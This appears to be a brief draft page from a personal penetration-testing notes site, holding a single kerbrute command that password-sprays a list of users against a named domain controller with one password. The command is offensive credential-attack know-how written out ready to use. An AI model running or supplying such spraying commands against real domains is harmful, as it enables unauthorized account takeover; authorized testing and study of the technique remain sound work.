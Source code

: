 ```yaml
---
title: "miscellaneous"
date: 2020-07-17T20:59:33+02:00
draft: true
---
```


#### Password spray with kerbrute

```$ .\kerb.exe passwordspray --dc V-DC2 -d DOMAIN.LOCAL -o spray.txt users.txt 'PASSWORD'```


